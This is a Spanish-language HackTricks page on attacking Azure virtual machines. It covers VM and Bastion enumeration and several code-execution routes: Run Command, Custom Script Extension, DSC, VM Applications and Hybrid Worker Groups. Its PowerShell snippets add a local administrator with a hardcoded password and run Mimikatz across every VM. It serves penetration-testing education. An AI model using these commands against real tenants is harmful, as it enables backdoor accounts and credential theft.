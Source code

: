 # Az - Máquinas Virtuales y Red

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información básica

Las máquinas virtuales de Azure son uno de los varios tipos de [recursos informáticos escalables y bajo demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que ofrece Azure. Típicamente, eliges una máquina virtual cuando necesitas más control sobre el entorno informático que las otras opciones ofrecen. Este artículo te proporciona información sobre lo que debes considerar antes de crear una máquina virtual, cómo crearla y cómo gestionarla.

## Información de la Red de Azure

Las redes de Azure contienen **diferentes entidades y formas de configurarlas.** Puedes encontrar **descripciones breves,** **ejemplos** y comandos de **enumeración** de las diferentes entidades de la red de Azure en:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** es un servicio completamente gestionado que proporciona **acceso RDP** (Protocolo de Escritorio Remoto) y **SSH** (Secure Shell) **seguro y sin interrupciones** a tus **máquinas virtuales directamente en el portal de Azure a través de SSL**. Este servicio es una alternativa más segura y conveniente a **exponer tus máquinas virtuales a conexiones de Internet públicas**. Azure Bastion se aprovisiona dentro de tu Red Virtual de Azure, proporcionando conectividad RDP y SSH a todas las VMs en la VNet usando direcciones IP privadas, lo que significa que no necesitas asignar direcciones IP públicas a tus VMs de Azure.

Así que si tu empresa tiene varias VMs alojadas dentro de una VNet de Azure para desarrollo y pruebas. **En lugar de configurar direcciones IP públicas y gestionar reglas NSG** para cada VM para habilitar el acceso RDP o SSH, **implementas Azure Bastion**. Con Azure Bastion, tus desarrolladores y personal de TI pueden **acceder a estas VMs desde el portal de Azure usando sus navegadores web de forma segura** sin la necesidad de direcciones IP públicas.

Para listar todos los Hosts de Azure Bastion en tu suscripción, puedes usar el siguiente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
## Enumeración de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Ejecutar comandos en una VM**

### **Inicio de sesión AAD en VM**

Es posible permitir el acceso a usuarios autenticados a través de AzureAD. Por ejemplo, al intentar acceder a una **VM linux**: `ssh username@azure-corp.com@1.1.1.1` (es importante **usar el correo electrónico** con el azurecorp utilizado al intentar iniciar sesión) podrías obtener un error como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Solo **sigue esas instrucciones** yendo a [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando el código, usa el correo electrónico y la contraseña como credenciales y podrás conectarte vía SSH (si ese usuario tiene suficientes permisos para hacerlo: rol de `Virtual Machine Administrator Login` o `Virtual Machine User Login`).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Ejecutar Extensión de Script Personalizado**

Las extensiones de máquina virtual (VM) de Azure son **pequeñas aplicaciones** que proporcionan configuración post-despliegue y **tareas** de automatización en **VMs de Azure**. Por ejemplo, si una máquina virtual requiere instalación de software, protección antivirus o la capacidad de ejecutar un script dentro de ella, puedes usar una extensión de VM.

Por lo tanto, si tienes acceso para escribir en ella, puedes ejecutar código arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState

**DesiredConfigurationState (DSC)** es similar a Ansible, pero es una herramienta dentro de PowerShell que permite configurar un host a través de código. DSC tiene su propia extensión en Azure que permite la subida de **archivos de configuración**. Los [archivos de configuración](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) de DSC son bastante exigentes en cuanto a la sintaxis, sin embargo, la extensión de DSC es muy crédula y **ejecutará ciegamente cualquier comando** siempre y cuando siga un cierto formato, como se muestra en la figura 5.

<figure><img src="../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Esto se puede hacer a través de la función **Az PowerShell** [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). La extensión DSC requiere un **.PS1** con una **función** y **empaquetado** en un archivo **.zip**. Dado que esto en realidad no es una sintaxis DSC correcta, el estado de la extensión se leerá como "fallo", sin embargo, el código se ejecutará. El problema con esto es que no hay salida del comando, ya que el estado se sobrescribe con el mensaje de fallo.

### VM Application Definitions

El recurso [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) es una forma de **desplegar aplicaciones versionadas de manera repetible** en una VM de Azure. Por ejemplo, si creas un **programa** y lo **despliegas** en todas las VMs de Azure como la versión 1.0, una vez que **actualices** el programa **a 1.1**, puedes usar la misma VM Application para **crear otra definición** y enviar la actualización a cualquier VM.\
Ser capaz de **desplegar una aplicación** en una VM significa que es otra vía para la **ejecución de código**. El inconveniente de este método es que configurar la Definición de la Aplicación [**requiere varios pasos**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), pero se puede lograr utilizando los cmdlets **`New-AzGalleryApplication`** y **`New-AzGalleryApplicationVersion`** en Az PowerShell.

Esta técnica funciona utilizando una **extensión "VMAppExtension"** que se instala automáticamente al aplicar una aplicación a una VM. La extensión descarga el archivo desde el URI al disco con el nombre de la Aplicación _exactamente_, lo que significa que si el nombre de la aplicación es 'AzApplication', el archivo en el disco también se llama 'AzApplication' sin extensión. Esto requiere que el campo "ManageActions" en la [llamada a la API REST](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) esté configurado para renombrar la aplicación con la extensión apropiada. Si no deseas ejecutar una aplicación completa, se pueden ejecutar comandos de PowerShell arbitrarios abusando también del campo ManageActions en el mismo método de la API REST o también a través del Portal de Azure. Una vez configurado, la definición será similar a la figura 8.

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

Esta técnica de ejecución es lamentablemente lenta (unos 3-4 minutos para ejecutar una aplicación o comando), sin embargo, al ser relativamente nueva, me sorprendería si hay detecciones específicas escritas.

Dado que es una extensión la que finalmente realiza la ejecución, una copia de la aplicación se encuentra en `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` y el estado de la ejecución se mantiene en `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

Los [**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) permiten que un **Runbook** configurado en una Cuenta de Automatización se **ejecute** en una **máquina virtual de Azure** que forma parte del **HWG configurado**. Una vez más, se utiliza una **extensión** en la VM para desplegar el código del Runbook en la VM. Dado que se utiliza una extensión, las credenciales son irrelevantes y el código se ejecuta como **SYSTEM** o root.

<figure><img src="../../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

Si se utiliza una VM de Windows 10, es importante que el Runbook se ejecute como PowerShell Versión 5.1 en lugar de 7.1, ya que 7.1 no está instalado por defecto en las VMs y el script fallará al ejecutarse.

## Referencias

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
